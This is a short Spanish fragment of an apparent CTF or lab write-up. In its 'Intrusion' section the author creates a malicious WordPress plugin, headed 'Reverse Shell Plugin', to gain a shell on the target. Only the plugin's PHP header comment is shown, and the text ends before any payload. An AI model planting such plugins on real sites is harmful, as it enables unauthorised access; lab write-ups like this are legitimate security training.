 ![](/assets/img/jeff/int.png)
![](/assets/img/jeff/ent.png)

## Intrusion
Si intetamos modificar un archivo para que nos envie una shell nos da un error, Entonces podemos crear un plugin malicioso para poder ganar acceso a la maquina.

Creamos el archivo php
```bash
❯ cat rev.php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Testing Testing
* Author URI: http://www.sevenlayers.com
*/
```